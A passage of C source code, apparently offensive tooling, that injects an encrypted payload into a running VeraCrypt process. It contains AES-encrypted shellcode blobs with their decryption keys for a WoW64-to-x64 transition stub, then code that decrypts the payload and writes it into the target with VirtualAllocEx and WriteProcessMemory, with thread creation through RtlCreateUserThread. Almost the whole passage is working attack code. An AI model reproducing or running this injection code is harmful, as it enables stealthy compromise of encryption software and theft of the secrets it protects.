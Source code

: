 ```c
							"\x46\x18\x50\xFF\x76\x10\xFF\x76\x08\x41\x51\x41\x51\x49\xB8\x01"
							"\x00\x00\x00\x00\x00\x00\x00\x48\x31\xD2\x48\x8B\x0E\x41\xBA\xC8"
							"\x38\xA4\x40\xFF\xD5\x48\x85\xC0\x74\x0C\x48\xB8\x00\x00\x00\x00"
							"\x00\x00\x00\x00\xEB\x0A\x48\xB8\x01\x00\x00\x00\x00\x00\x00\x00"
							"\x48\x83\xC4\x50\x48\x89\xFC\xC3";
*/

	// AES-encrypted sh_executex64 function (switches to 64-bit mode and runs sh_wownativex)
	unsigned char sh_executex64[] = { 0xf7, 0x69, 0x26, 0xaf, 0x10, 0x56, 0x2a, 0xcc, 0xeb, 0x96, 0x6b, 0xd0, 0xb8, 0xe3, 0x4d, 0x44, 0x16, 0xb0, 0xf8, 0x9d, 0x32, 0xd9, 0x65, 0x12, 0xa2, 0x9e, 0xec, 0x5d, 0x37, 0xde, 0x34, 0x9a, 0x94, 0x19, 0xc7, 0xa5, 0xe6, 0xe8, 0x3e, 0xa2, 0x1d, 0x5a, 0x77, 0x25, 0xcb, 0xc, 0xcd, 0xd0, 0x59, 0x11, 0x3c, 0x2d, 0x4d, 0x16, 0xf1, 0x95, 0x3a, 0x33, 0x0, 0xb4, 0x3, 0x55, 0x98, 0x6f, 0x61, 0x84, 0x61, 0x2b, 0x8a, 0xe8, 0x53, 0x47, 0xaa, 0x58, 0xfc, 0x70, 0x91, 0xcd, 0xa9, 0xb1 };
	unsigned int sh_executex64_len = sizeof(sh_executex64);
	unsigned char sh_executex64_key[] = { 0x26, 0x96, 0xcc, 0x43, 0xca, 0x1f, 0xf8, 0xa, 0xe5, 0xcc, 0xbf, 0xf1, 0x2f, 0xc9, 0xae, 0x71 };
	size_t sh_executex64_key_len = sizeof(sh_executex64_key);

	// AES-encrypted sh_wownativex function (calling RtlCreateUserThread in target process)
	unsigned char sh_wownativex[] = { 0x20, 0x8f, 0x32, 0x33, 0x59, 0xa1, 0xce, 0x2f, 0xf8, 0x8b, 0xa, 0xb4, 0x2a, 0x7f, 0xe6, 0x26, 0xe4, 0xd1, 0x4e, 0x25, 0x38, 0x57, 0xdd, 0xc4, 0x2c, 0x1c, 0x10, 0x2b, 0x70, 0x0, 0x9, 0x67, 0x5c, 0x70, 0x6d, 0x67, 0x4f, 0x27, 0xe8, 0xaf, 0xa1, 0x6f, 0x10, 0x42, 0x73, 0x9d, 0x4a, 0xb1, 0x6, 0x22, 0x89, 0xef, 0xac, 0x40, 0xd7, 0x93, 0x94, 0x6e, 0x4c, 0x6e, 0xf4, 0xcb, 0x46, 0x4d, 0xf3, 0xe8, 0xb5, 0x36, 0x11, 0xa6, 0xad, 0xeb, 0x8d, 0xda, 0xa0, 0x54, 0x75, 0xd9, 0xf3, 0x41, 0x34, 0xb3, 0xa6, 0x70, 0x41, 0x3e, 0xf3, 0x96, 0x97, 0x12, 0x74, 0x6b, 0x2e, 0x36, 0x31, 0x26, 0x86, 0x2, 0x24, 0x59, 0x40, 0xb9, 0xbb, 0x2b, 0xa2, 0x98, 0xbe, 0x15, 0x73, 0xb5, 0x90, 0x39, 0xe5, 0x82, 0xbb, 0xdd, 0x7, 0xe9, 0x9d, 0x89, 0x9a, 0x9e, 0x5f, 0x94, 0xde, 0x2, 0x80, 0x36, 0x45, 0x5d, 0x8e, 0xe6, 0x5e, 0x2c, 0x58, 0x59, 0xf4, 0xf7, 0xa0, 0xbf, 0x7e, 0x94, 0xff, 0x50, 0xf0, 0x76, 0x74, 0x2f, 0xd1, 0x91, 0x18, 0x65, 0x12, 0x30, 0xfa, 0x4, 0x61, 0xa5, 0x4d, 0x25, 0x57, 0xf4, 0x52, 0x99, 0xa2, 0x93, 0x67, 0xe1, 0x6, 0x43, 0x4b, 0x55, 0x53, 0x67, 0x89, 0x18, 0x71, 0x72, 0xdb, 0x82, 0xef, 0x5b, 0xdc, 0x8b, 0xb0, 0x91, 0xf5, 0x58, 0xe4, 0x85, 0xc3, 0x80, 0x7b, 0x79, 0x21, 0x3a, 0x60, 0x99, 0xc5, 0x62, 0x2c, 0x73, 0xa4, 0x2b, 0xe2, 0xc, 0xda, 0xa2, 0x88, 0x6b, 0x2f, 0x38, 0x80, 0xfd, 0xb1, 0xaf, 0xea, 0x4f, 0xb5, 0x0, 0xda, 0x46, 0x46, 0x9d, 0x23, 0xdd, 0xe3, 0x4a, 0xf5, 0xc9, 0x8, 0xf0, 0x97, 0xa9, 0x55, 0x71, 0xda, 0x84, 0xa9, 0xf5, 0xcb, 0x1f, 0xb9, 0xb9, 0x67, 0xf7, 0xf2, 0x2f, 0x2a, 0x56, 0x3, 0xe1, 0x56, 0x26, 0xb4, 0x3a, 0xd9, 0xe2, 0x11, 0x8a, 0x8f, 0xef, 0x8c, 0x89, 0xc0, 0x26, 0x9c, 0x9f, 0xe5, 0x18, 0xd4, 0xd7, 0xae, 0x91, 0xbf, 0x2b, 0x14, 0xbb, 0xfd, 0xe0, 0xb5, 0x9c, 0x9d, 0x81, 0x71, 0x5d, 0xdd, 0xe6, 0x5d, 0x8a, 0xe6, 0x61, 0xf2, 0x69, 0xf8, 0x95, 0x4f, 0xcd, 0xe3, 0x52, 0x1f, 0x14, 0xe5, 0x8c };
	unsigned int sh_wownativex_len = sizeof(sh_wownativex);
	unsigned char sh_wownativex_key[] = { 0xe5, 0x53, 0xc4, 0x11, 0x75, 0x14, 0x86, 0x8f, 0x59, 0x35, 0x7c, 0xc7, 0x8b, 0xc5, 0xdc, 0x2d };
	size_t sh_wownativex_key_len = sizeof(sh_wownativex_key);

	// inject payload into target process (VeraCrypt)
	AESDecrypt((char *) payload, payload_len, (char *) key, key_len);
	pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
	WriteProcessMemory(hProc, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);
	
	// alloc a RW buffer in this process for the EXECUTEX64 function
	pExecuteX64 = (EXECUTEX64)VirtualAlloc( NULL, sizeof(sh_executex64), MEM_RESERVE|MEM_COMMIT, PAGE_READWRITE );
	// alloc a RW buffer in this process for the X64FUNCTION function (and its context)
	pX64function = (X64FUNCTION)VirtualAlloc( NULL, sizeof(sh_wownativex)+sizeof(WOW64CONTEXT), MEM_RESERVE|MEM_COMMIT, PAGE_READWRITE );

	// decrypt and copy over the wow64->x64 stub
	AESDecrypt((char *) sh_executex64, sh_executex64_len, (char *) sh_executex64_key, sh_executex64_key_len);
	memcpy( pExecuteX64, sh_executex64, sh_executex64_len );
	VirtualAlloc( pExecuteX64, sizeof(sh_executex64), MEM_COMMIT, PAGE_EXECUTE_READ );

	// decrypt and copy over the native x64 function
```